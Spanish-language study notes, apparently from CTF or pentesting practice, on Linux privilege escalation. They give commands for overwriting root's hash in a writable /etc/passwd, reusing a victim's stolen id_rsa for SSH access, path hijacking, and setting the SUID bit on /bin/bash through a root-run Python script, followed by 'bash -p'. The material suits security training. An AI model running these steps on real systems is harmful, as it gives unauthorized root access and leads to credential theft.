 

- Comando -> **find / -writable 2>/dev/null | grep -vE "/var|/run|/dev|/tmp|/lib|/proc|/sys"** Buscamos archivo desde la raiz con capacidad de escritura y los errores los ocultamos, ademas de quitar (vE=quitas multiples palabras) vas,dev,run, etc... y al final encontraremos **/etc/passwd**
- Comando -> **find / -writable -ls 2>/dev/null | grep -vE "/var|/run|/dev|/tmp|/lib|/proc|/sys"** Buscamos archivo desde la raiz con capacidad de escritura y los errores los ocultamos, ademas de quitar (vE=quitas multiples palabras) vas,dev,run, etc... y al final encontraremos **/etc/passwd**, con ls podemos ver el propietario y si el grupo otros pueden modificarlo (w=write)
		Si podemos entrar al **/etc/passwd** podemos ponerle al usuario root una passwd directamente hasheada de forma hardcodeada, para que al momento de hacer un **sudo su** compare directamente con lo que colocamos y no lo lea del **/etc/shadow**
	- Comando -> **openssl passwd** Creamos una passwd en formato DES(unix), y este lo colocaremos en la parte verde de root:**x**:0:0 y guardamos el archivo






- Comando -> **cd .ssh** Nos dirigimos al dir SHH que contiene un archivo con la clave privada **id_rsa (clave privada)**, este se encuentra en **home/user/.ssh/id_rsa** o la publica **home/user/.ssh/id_rsa.pub** o las **home/user/.ssh/authorized_keys**
	- **nano** **id_rsa** Creamos el archivo y le pegamos el contenido del id_rsa que habiamos encontrado en la maquina victima
	- **chmod 600** **id_rsa** Le cambiamos los privilegios para poderla usar el archivo
	- **ssh -i** **id_rsa** **< USER>@< IP>** Conectarnos con el id_rsa a la maquina victima por medio de ssh sin proporcionar la password
- Comando -> **ssh < user>@localhost** Por lo que cuando tenemos un authorized_keys podemos entrar por SSH sin proporcionar passwd en forma local 


- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux
Encontramos un **tightvnc**. Esto es una aplicacion informatica de codigo abierto para administracion remota multiplataforma que utiliza el protocolo RFB deVNC para controlar panatlla de otro equipo de forma remota. Y los puerto que comunmente corre es el 5900-5901, 5800-5801
	Seguimos los pasos de la parte del Port Forwardin Dinamico

- Comando -> **ps aux | grep "^root"** Mostrara todos los procesos que estan corriendo como root

Path Hajacking -> Sirve para secuestrar el path y hacer que el comando que vas a ejecutar lo busque en la ruta que quieres.

- Comando -> **find .** Para ver archivos y sus extensiones y asi ver si podemos ejecutar alguno

- Comando -> **nano /opt/tmp.py**
	os.system('chmod u+s /bin/bash')
Modificando esa parte le diremos que otorgue el privilegio usid a la bash, para que cuando lo ejecute le pondra el s asi: -rw**s**r-xr-x root root 
- Comando -> **bash -p** Para ejecutar la bash con privilegios (p=priviledge) y atentara contra el propietario root
El comando ps nos permite detectar todos los comandos y procesos que se estan ejecuatndo en el sistema
